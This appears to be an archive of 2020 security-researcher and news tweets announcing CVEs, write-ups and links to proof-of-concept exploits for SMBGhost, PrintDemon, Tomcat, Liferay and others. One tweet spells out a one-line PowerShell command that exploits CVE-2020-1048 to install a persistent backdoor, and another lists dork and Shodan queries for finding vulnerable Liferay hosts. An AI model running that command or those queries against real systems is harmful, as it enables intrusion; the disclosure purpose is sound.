</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1301

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>390</code></td>
<td>Favorites: <code>701</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1270454668095782919 _at Tue Jun 09 20:36:11 +0000 2020_**
<blockquote>
SMBleed — A new security vulnerability (CVE-2020-1206) affects Windows SMBv3 protocol.

Details + PoC: https://t.co/DcF5pumvvM

An unauthenticated attacker (client/server) can also combine it with the "wormable" SMBGhost flaw to achieve RCE attacks.

#infosec #cybersecurity https://t.co/lTOx5uP7l6
</blockquote>

* https://thehackernews.com/2020/06/SMBleed-smb-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>32</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>402</code></td>
<td>Favorites: <code>611</code></td>
</tr></table>

---
# _Homeostasie_
**https://twitter.com/_Homeostasie_/status/1270434679980777478 _at Tue Jun 09 19:16:45 +0000 2020_**
<blockquote>
[New Post] Here is my detailed write-up on a new #SMBv1 vulnerability named #SMBLost (CVE-2020-1301). 
#RCE conceivable. Find out why #SMBLost is less harmful than #SMBGhost or #EternalBlue.
#PoC causing a remote #DoS available. Stay secure! 🙂

➡️https://t.co/Hlk9ngsNcf https://t.co/VN28aqTrhM
</blockquote>

* https://airbus-cyber-security.com/diving-into-the-smblost-vulnerability-cve-2020-1301/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>260</code></td>
<td>Favorites: <code>440</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1268997885225578496 _at Fri Jun 05 20:07:27 +0000 2020_**
<blockquote>
Protect your networks from malicious cyber actors. Update Microsoft SMB ASAP to patch RCE vulnerability, CVE-2020-0796, being exploited in the wild. [https://t.co/N89NWqFgIH] #Cyber #Cybersecurity #InfoSec #RCE
</blockquote>

* https://go.usa.gov/xwBec

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>183</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---
# FlatL1ne
**https://twitter.com/FlatL1ne/status/1268286621377576960 _at Wed Jun 03 21:01:08 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit

https://t.co/lmFgh6v6Gu
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>340</code></td>
<td>Favorites: <code>668</code></td>
</tr></table>

---
# netbiosX
**https://twitter.com/netbiosX/status/1267780444084469760 _at Tue Jun 02 11:29:46 +0000 2020_**
<blockquote>
SMBGhost - RCE PoC for CVE-2020-0796 "SMBGhost" https://t.co/LlLmOrwA6r
</blockquote>

* https://github.com/chompie1337/SMBGhost_RCE_PoC

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>253</code></td>
</tr></table>

---
# cyber_advising
**https://twitter.com/cyber_advising/status/1267767083888259072 _at Tue Jun 02 10:36:41 +0000 2020_**
<blockquote>
CVE-2020-0796 | Windows SMBv3 Client/Server Remote Code Execution Vulnerability

POC
https://t.co/A1KkMmCzf0 https://t.co/al3Ar5J20x
</blockquote>

* https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/48537.zip

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---
# chompie1337
**https://twitter.com/chompie1337/status/1267650767286153221 _at Tue Jun 02 02:54:29 +0000 2020_**
<blockquote>
It seems that ALOT of people are interested in the #SMBGhost CVE-2020-0796 RCE PoC source. Since 
@ZecOps will be releasing theirs in the coming days, and the bug has been patched for months, I think its OK to release for educational purposes. Find it here:https://t.co/6rA7yPCkeA
</blockquote>

* https://github.com/chompie1337/SMBGhost_RCE_PoC

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>139</code></td>
<td>Favorites: <code>289</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1267409820694597634 _at Mon Jun 01 10:57:03 +0000 2020_**
<blockquote>
Analysis of CVE-2020-13693, an unauthenticated privilege-escalation flaw in the BBPress forum plugin for #WordPress that has over 1.5 million downloads.

https://t.co/JUZGkNSHtX https://t.co/Np56UCzUna
</blockquote>

* https://b.ou.is/articles/2020-05/CVE-2020-13693

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>171</code></td>
</tr></table>

---
# _ringzer0
**https://twitter.com/_ringzer0/status/1266347819482390530 _at Fri May 29 12:37:02 +0000 2020_**
<blockquote>
Discover how @bluefrostsec exploits #Android Binder to escape the Google #Chrome sandbox, attack the kernel, and obtain root privileges on a Pixel 3 device using CVE-2020-0041. https://t.co/9xtJJFBC3d

Detailed writeup by @esanfelix and @jgrusko with video demo and POC on Github! https://t.co/KwUnhUmy9k
</blockquote>

* https://bit.ly/CVE-2020-0041

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---
# theevilbit
**https://twitter.com/theevilbit/status/1266246713150328832 _at Fri May 29 05:55:16 +0000 2020_**
<blockquote>
The 3rd part of my XPC series is up. This time I cover the Microsoft Auto Update LPE vulnerability (CVE-2020-0984) I found last year and was fixed recently. Great example for why proper client verification is extremely important.
https://t.co/6HZKbarrra
</blockquote>

* https://theevilbit.github.io/posts/secure_coding_privilegedhelpertools_part3/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>85</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1266101773435129856 _at Thu May 28 20:19:20 +0000 2020_**
<blockquote>
.@NSAGov has released a cybersecurity advisory on Russian Sandworm APT actors exploiting CVE-2019-10149, a remote code execution vulnerability in Exim. Read more at https://t.co/d77VHReUx7. #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xwgXH

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>119</code></td>
<td>Favorites: <code>161</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1265991271182741505 _at Thu May 28 13:00:14 +0000 2020_**
<blockquote>
Kaspersky publishes a report on CVE-2019-13720, the Chrome zero-day that was unearthed/patched in October 2019.

Per Kaspersky, the zero-day was used by Operation WizardOpium APT in a classic watering-hole attack on a North Korea-related news site

https://t.co/pItDW2Fh0j
</blockquote>

* https://securelist.com/the-zero-day-exploits-of-operation-wizardopium/97086/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1265082511245230080 _at Tue May 26 00:49:09 +0000 2020_**
<blockquote>
GitHub - amartinsec/CVE-2020-12800: POC Script for CVE-2020-12800: RCE through Unrestricted File Type Upload - https://t.co/6RIG8P48i3
</blockquote>

* https://github.com/amartinsec/CVE-2020-12800/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# Th3Gundy
**https://twitter.com/Th3Gundy/status/1264596414002270208 _at Sun May 24 16:37:34 +0000 2020_**
<blockquote>
QNAP pre-auth root RCE Exploit (CVE-2019-7192 - CVE-2019-7195)  
https://t.co/lhmRDoa5M4

#QNAP #vulnerability #Exploit #BugBounty https://t.co/YtC1RL1W2x
</blockquote>

* https://github.com/th3gundy/CVE-2019-7192_QNAP_Exploit

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>204</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1263515835144048640 _at Thu May 21 17:03:44 +0000 2020_**
<blockquote>
In his first blog for us, @_wmliang_ covers CVE-2020-8871 - a privilege escalation bug in #Parallels Desktop originally submitted by @renorobertr. Read the bug details and patch analysis at https://t.co/oNkaYN1ELI
</blockquote>

* https://bit.ly/2yjHQEy

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---
# netbiosX
**https://twitter.com/netbiosX/status/1261310127090675713 _at Fri May 15 14:59:02 +0000 2020_**
<blockquote>
PrintDemon - A PowerShell Empire launcher PoC using PrintDemon and Faxhell. The module has the Faxhell dll already embedded which leverages CVE-2020-1048 for privilege escalation. https://t.co/Bt695rvJA3
</blockquote>

* https://github.com/BC-SECURITY/Invoke-PrintDemon

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---
# EyalItkin
**https://twitter.com/EyalItkin/status/1260875003177861120 _at Thu May 14 10:10:01 +0000 2020_**
<blockquote>
CVE-2019-0887: Path-Traversal -&gt; RCE in mstsc.exe. Patched with PathCchCanonicalize.

CVE-2020-0655: We replaced '\' with '/', that's it. Patched with a workaround.

As Microsoft didn't patch PathCanonicalize, you need to manually fix your own programs!
https://t.co/kmpK9Ihi3Z
</blockquote>

* https://research.checkpoint.com/2020/reverse-rdp-the-path-not-taken/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>169</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1260861318082564099 _at Thu May 14 09:15:38 +0000 2020_**
<blockquote>
[CPR-Zero] CVE-2020-1143 (Windows 10 Kernel): Use-After-Free in the NtUserGetDCEx function in win32kfull.sys
https://t.co/GkRF3Nk3wN
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2152/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---
# aionescu
**https://twitter.com/aionescu/status/1260466215299973121 _at Wed May 13 07:05:38 +0000 2020_**
<blockquote>
Attackers can exploit CVE-2020-1048 with a single PowerShell command:

Add-PrinterPort -Name c:\windows\system32\ualapi.dll

On an unpatched system, this will install a persistent backdoor, that won't go away *even after you patch*.

See https://t.co/9yMSWNM8VG for more details.
</blockquote>

* https://windows-internals.com/printdemon-cve-2020-1048/

<table><tr>
<td>Quotes: <code>55</code></td>
<td>Replies: <code>32</code></td>
<td>Retweets: <code>1240</code></td>
<td>Favorites: <code>2288</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1259674133249458176 _at Mon May 11 02:38:11 +0000 2020_**
<blockquote>
[PoC] A Python script to exploit CVE-2020-8816, a remote code execution vulnerability on the Pi-hole

The exploit requires the path for the www-data user to be /opt/pihole:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin.

https://t.co/tBbL7yFbmb https://t.co/vk5vCBgBZS
</blockquote>

* https://github.com/AndreyRainchik/CVE-2020-8816

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---
# maxpl0it
**https://twitter.com/maxpl0it/status/1258517934718062594 _at Thu May 07 22:03:52 +0000 2020_**
<blockquote>
Here's my exploit for CVE-2020-0674 (Internet Explorer UAF)

Bonus: EMET 5.52 (the final EMET version) doesn't appear to detect this (on Windows x64 it seems)

https://t.co/IxCfpjGBqv
</blockquote>

* https://github.com/maxpl0it/CVE-2020-0674-Exploit

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>216</code></td>
<td>Favorites: <code>469</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1257250156652584962 _at Mon May 04 10:06:10 +0000 2020_**
<blockquote>
WARNING — Just within a day after public disclosure of SaltStack RCE #vulnerability (CVE-2020-11651), hackers have started exploiting unpatched servers.

✅ LineageOS [hacked]
✅ Ghost CMS [hacked]
✅ DigiCert [hacked]

Read more: https://t.co/SY54kVTMsK

#infosec
#cybersecurity https://t.co/x9238WFWvS
</blockquote>

* https://thehackernews.com/2020/05/saltstack-rce-exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>257</code></td>
<td>Favorites: <code>315</code></td>
</tr></table>

---
# 44CON
**https://twitter.com/44CON/status/1257198909127942149 _at Mon May 04 06:42:32 +0000 2020_**
<blockquote>
(From https://t.co/OT552U6KvT): Released a public exploit (Local Privilege Escalation) for SMBv3 bug (CVE-2020-0796) https://t.co/r84NvKVrdc
</blockquote>

* http://github.com
* http://dlvr.it/RVyNv2

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1256190520696725507 _at Fri May 01 11:55:33 +0000 2020_**
<blockquote>
Oracle has published a security alert last night warning of attacks against a recently patched WebLogic security bug

- The bug is CVE-2020-2883, a no-auth RCE in WebLogic
- CVSSv3 of 9.8/10
- Bug is patched, but PoC code has been published online

https://t.co/AdyCFcstDx https://t.co/OsOmTh3RoK
</blockquote>

* https://www.zdnet.com/article/oracle-warns-of-attacks-against-recently-patched-weblogic-security-bug/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1255528051816796161 _at Wed Apr 29 16:03:08 +0000 2020_**
<blockquote>
Detailing CVE-2020-0932 - a now patched RCE bug in #Microsoft #SharePoint reported to us by an anonymous researcher. The blog lays out how code exec is possible using TypeConverters and provides video demonstration and PoC. Read the post at https://t.co/cnAAUDh9ow
</blockquote>

* https://bit.ly/3cVGRt1

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>139</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1255267400691392512 _at Tue Apr 28 22:47:24 +0000 2020_**
<blockquote>
Google's today rolling out the latest Chrome version 81.0.4044.129 to Windows, Mac, and #Linux users that patches two high-severity vulnerabilities.

✅ CVE-2020-6462: Use after free in task scheduling

✅ CVE-2020-6461: Use after free in storage.

https://t.co/ywrKISoTke
</blockquote>

* https://chromereleases.googleblog.com/2020/04/stable-channel-update-for-desktop_27.html

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>230</code></td>
</tr></table>

---
# h0mbre_
**https://twitter.com/h0mbre_/status/1254108024018481152 _at Sat Apr 25 18:00:27 +0000 2020_**
<blockquote>
Exploit Proof-of-Concept for CVE-2020-12138, Privilege Escalation in ATI Technologies Inc. driver 'atillk64.sys'. Thanks to all those cited for helping me along the way. 

https://t.co/OGqwdUs5ZS
</blockquote>

* https://h0mbre.github.io/atillk64_exploit/#

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>313</code></td>
<td>Favorites: <code>632</code></td>
</tr></table>

---
# Madrobot_
**https://twitter.com/Madrobot_/status/1252821730508193799 _at Wed Apr 22 04:49:11 +0000 2020_**
<blockquote>
CVE-2020-7961: Liferay Portal Unauthenticated RCE

Google dork:- inurl:/api/jsonws
Shodan:- Powered+By+Liferay
publicwww:-https://t.co/BbDIOOZcil
POC:- https://t.co/MNkZELcoKy
#bugbounty #BugBountyTips #cve #Preauth #rce #liferay
</blockquote>

* https://publicwww.com/websites/Powered+By+Liferay/
* https://github.com/mzer0one/CVE-2020-7961-POC

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>78</code></td>
<td>Favorites: <code>120</code></td>
</tr></table>

---
# _fel1x
**https://twitter.com/_fel1x/status/1252502296661016576 _at Tue Apr 21 07:39:52 +0000 2020_**
<blockquote>
My writeup for the haproxy http2 bug (CVE-2020-11100) is now public: https://t.co/rWgz4bfnCZ.  Includes a PoC exploit to demonstrate RCE against Ubuntu 19.10.
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=2023

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>265</code></td>
<td>Favorites: <code>645</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1252174102133116928 _at Mon Apr 20 09:55:44 +0000 2020_**
<blockquote>
[CPR-Zero] CVE-2020-0791 (Windows 10 Kernel): Out-Of-Bounds Read\Write in the StrechBlt function in win32kfull.sys
https://t.co/PGg9X2bNHE
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2147/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>135</code></td>
</tr></table>

---
# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1250838868536025090 _at Thu Apr 16 17:30:00 +0000 2020_**
<blockquote>
GHSL-2020-037: Use after free in Chrome webaudio - CVE-2020-6428 https://t.co/pYcJ55DXEH
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2020-037-chrome

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# james0x40
**https://twitter.com/james0x40/status/1250777364105232385 _at Thu Apr 16 13:25:36 +0000 2020_**
<blockquote>
A WebRTC use-after-free vulnerability PoC code is uploaded.
CVE-2019-13694
https://t.co/nISlSQ5n91
</blockquote>

* https://github.com/james0x40/chrome-webrtc-pocs/blob/master/cve-2019-13694.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>156</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1250121074425167873 _at Tue Apr 14 17:57:44 +0000 2020_**
<blockquote>
Killed 7 vulnerabilities in tonight Microsoft patch Tuesday:

Jet Database Engine:
CVE-2020-0953: RCE
CVE-2020-0959: RCE
CVE-2020-0960: RCE
CVE-2020-0988: RCE
CVE-2020-0992: RCE
CVE-2020-0994: RCE

Windows:
CVE-2020-0821: information disclosure
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# metasploit
**https://twitter.com/metasploit/status/1248658249043378179 _at Fri Apr 10 17:05:00 +0000 2020_**
<blockquote>
#Metasploit wrap-up c/o @pearce_barry: Meterpreter bug fixes and five new modules, including an LPE exploit for SMBghost (CVE-2020-0796) and a BloodHound post module that gathers info and stores it as a BloodHound-consumable ZIP file in Framework loot. https://t.co/0LnGh8Jkkf
</blockquote>

* https://blog.rapid7.com/2020/04/10/metasploit-wrap-up-59/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---
# eternalsakura13
**https://twitter.com/eternalsakura13/status/1247643720503062529 _at Tue Apr 07 21:53:37 +0000 2020_**
<blockquote>
https://t.co/TSl14LmZbP

Always alpha : )
My third chrome security high, unfortunately I have never fully implemented the exploit.

Can someone tell me how to write the RCE exploit for my bug CVE-2019-5831, I really want to know
https://t.co/uZE5jpsm9H https://t.co/JYT9SPuBtG
</blockquote>

* https://chromereleases.googleblog.com/2020/04/stable-channel-update-for-desktop_7.html
* https://bugs.chromium.org/p/chromium/issues/detail?id=950328

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1247064710463225856 _at Mon Apr 06 07:32:50 +0000 2020_**
<blockquote>
CVE-2020-3947: Use after free vulnerability in the VMware workstation DHCP component  https://t.co/n23a6LvXTe  #Vmware #Vulnerability #CyberSecurity #Infosec https://t.co/3zXc49BNqA
</blockquote>

* https://www.zerodayinitiative.com/blog/2020/4/1/cve-2020-3947-use-after-free-vulnerability-in-the-vmware-workstation-dhcp-component

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1245763179273228299 _at Thu Apr 02 17:21:01 +0000 2020_**
<blockquote>
Exploiting SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC
https://t.co/7YpXoJ2HNH
</blockquote>

* https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1245130787134947328 _at Tue Mar 31 23:28:07 +0000 2020_**
<blockquote>
Exploiting SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC https://t.co/KZ5GGdSP0s
</blockquote>

* https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---
# ZecOps
**https://twitter.com/ZecOps/status/1245113954906468352 _at Tue Mar 31 22:21:14 +0000 2020_**
<blockquote>
Exploiting #SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC via @ZecOps Research Blog https://t.co/49fTuHwqPC
</blockquote>

* https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>97</code></td>
<td>Favorites: <code>170</code></td>
</tr></table>

---
# bluefrostsec
**https://twitter.com/bluefrostsec/status/1245050305038954498 _at Tue Mar 31 18:08:19 +0000 2020_**
<blockquote>
Want to know how to escape the Chrome sandbox exploiting Android's Binder with CVE-2020-0041? Check out our latest post by @esanfelix and @jgrusko 
https://t.co/RRf0cbyruk
</blockquote>

* https://labs.bluefrostsecurity.de/blog/2020/03/31/cve-2020-0041-part-1-sandbox-escape/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>182</code></td>
</tr></table>

---
# hjy79425575
**https://twitter.com/hjy79425575/status/1244934280674865152 _at Tue Mar 31 10:27:16 +0000 2020_**
<blockquote>
I just read CVE-2020-0796 SMB vulnerability LPE exploit and here is my quick analysis.
https://t.co/xvEip0RYD6 https://t.co/9F3NQNRVXU
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>212</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1244633317304971266 _at Mon Mar 30 14:31:21 +0000 2020_**
<blockquote>
PoC exploits have been released for achieving local privilege escalation on #Windows10 leveraging recently discovered wormable SMBv3 RCE flaw.

CVE-2020-0796
#SMBGhost

PoCs:
https://t.co/6UcXlUGZ40
https://t.co/7VjHnuST2S

Patch / News:
https://t.co/LNwM4dSZ0G https://t.co/hz4V8ESPMv
</blockquote>

* https://github.com/danigargu/CVE-2020-0796
* https://github.com/ZecOps/CVE-2020-0796-POC
* https://thehackernews.com/2020/03/patch-wormable-smb-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>198</code></td>
<td>Favorites: <code>316</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1244617401519329281 _at Mon Mar 30 13:28:07 +0000 2020_**
<blockquote>
Released a public exploit (Local Privilege Escalation) for SMBv3 bug (CVE-2020-0796) https://t.co/EiAUS3cqGl
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---
# danigargu
**https://twitter.com/danigargu/status/1244608389289848832 _at Mon Mar 30 12:52:18 +0000 2020_**
<blockquote>
During this quarantine I've been researching with my colleague Manu (@dialluvioso_) the latest SMBv3 bug (CVE-2020-0796), we've achieved a local privilege escalation.
We're releasing the exploit code at https://t.co/lKsy4dBkpp https://t.co/YJuQk7YiUU
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>24</code></td>
<td>Retweets: <code>591</code></td>
<td>Favorites: <code>1058</code></td>
</tr></table>

---
# ZecOps
**https://twitter.com/ZecOps/status/1244336079022374912 _at Sun Mar 29 18:50:14 +0000 2020_**
<blockquote>
Did you know that #SMBGhost / CVE-2020-0796 can be used for a Local Privilege Escalation?
We'll post the details + POC in the next few days #PatchNow #ComingSoon
and in the meantime: https://t.co/78gmQU78Ae https://t.co/WHDmaXo1Ar
</blockquote>

* https://blog.zecops.com/vulnerabilities/vulnerability-reproduction-cve-2020-0796-poc/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>342</code></td>
<td>Favorites: <code>703</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1243911501955530753 _at Sat Mar 28 14:43:07 +0000 2020_**
<blockquote>
CVE-2020-8816 – Pi-hole Remote Code Execution – Detailed write-up about the vulnerability and exploitation proof of concept https://t.co/lk502TmAad
</blockquote>

* https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>213</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1243194544017072128 _at Thu Mar 26 15:14:11 +0000 2020_**
<blockquote>
The Trend Micro Research Team takes a detailed look at CVE-2020-0729 - an RCE bug in #Windows through LNK files. Read the thorough analysis at https://t.co/y7SPhoPQvM
</blockquote>

* https://bit.ly/3bsf4PZ

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>143</code></td>
<td>Favorites: <code>248</code></td>
</tr></table>

---
# ihack4falafel
**https://twitter.com/ihack4falafel/status/1242835791287590913 _at Wed Mar 25 15:28:38 +0000 2020_**
<blockquote>
[Blog] Docker Desktop Local Privilege Escalation (CVE-2020-10665) https://t.co/rJqn6f0b6E cc @decoder_it @FuzzySec @tiraniddo
</blockquote>

* https://tinyurl.com/vdzyr7t

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---
# Securelist
**https://twitter.com/Securelist/status/1241348929150730240 _at Sat Mar 21 13:00:22 +0000 2020_**
<blockquote>
The #Windows #0day exploit, CVE-2019-1458 was used in Operation #WizardOpium attack.

Learn more here ⇒ https://t.co/9WwUOSnp1F https://t.co/veveecXPUB
</blockquote>

* http://kas.pr/hs4a

<table><tr>
